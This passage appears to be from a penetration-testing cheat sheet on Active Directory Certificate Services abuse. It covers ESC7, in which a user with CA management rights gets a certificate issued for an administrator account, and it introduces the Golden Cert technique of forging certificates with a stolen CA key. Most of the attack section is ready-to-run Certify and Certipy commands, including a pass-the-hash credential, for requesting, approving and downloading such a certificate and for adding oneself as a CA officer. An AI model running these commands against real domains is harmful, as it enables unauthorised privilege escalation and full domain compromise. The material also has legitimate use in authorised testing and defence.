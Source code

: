 

### ESC7.1 with Certify


This section describes how to exploit vulnerable CA ACLs (ESC7) by leveraging `ManageCertificate` rights to approve a failed request and bypass CBA (Certificate-Based Authentication) patches.

#### Example Commands

**Create a Failed Request**  
```powershell
Certify.exe request /ca:ca.corp\CA /template:subCA /altname:administrator /domain:internal.corp /sidextension:S-1-5-21-2177854049-4204292666-1463338204-500
```

**Approve the Failed Request**  
```powershell
Certify-esc7.exe issue /ca:ca.corp\CA /id:58
```

**Download the Approved Request**  
```powershell
Certify-esc7.exe download /ca:ca.corp\CA /id:58
```

#### Adding Yourself as a New Officer

If you do not possess the `ManageCertificates` right, you can use existing `ManageCA` rights to add yourself as a new officer. Here’s how to do it with Certipy:

1. **Add Yourself as an Officer**  
```powershell
certipy ca -u internaluser@internal.corp -hashes 'aad3b435b51404eeaad3b435b51404ee:6ca67841f08c8c73baf4d93ca16e7760' -ca 'CB-CA' -dc-ip 172.16.203.1 -target ca.corp -add-officer internaluser
```

2. **Enable the SubCA Template**  
```powershell
certipy ca -u internaluser@internal.corp -hashes 'aad3b435b51404eeaad3b435b51404ee:6ca67841f08c8c73baf4d93ca16e7760' -ca 'CB-CA' -dc-ip 172.16.203.1 -target ca.corp -enable-template 'SubCA'
```

#### Risks and Implications

- **Privilege Escalation**: By abusing the `ManageCA` and `ManageCertificates` rights, low-privilege users can escalate their privileges, allowing them to issue unauthorized certificates.
- **Misconfiguration Exploitation**: The potential to misconfigure CA settings increases the risk of unauthorized certificate issuance, leading to possible domain compromise.

---


## Certificate Forgery and Authentication Attacks

### Stolen CA Keys (DPERSIST1)

- Once local admin rights are obtained on a Certificate Authority (CA) (e.g., through misconfigured ACLs), it is possible to forge valid user or computer certificates by stealing and using the RootCA certificate and private key.
- This method is commonly referred to as the **Golden Cert Attack**, which is analogous to the **Golden Ticket Attack** (stealing the KRBTGT hash).
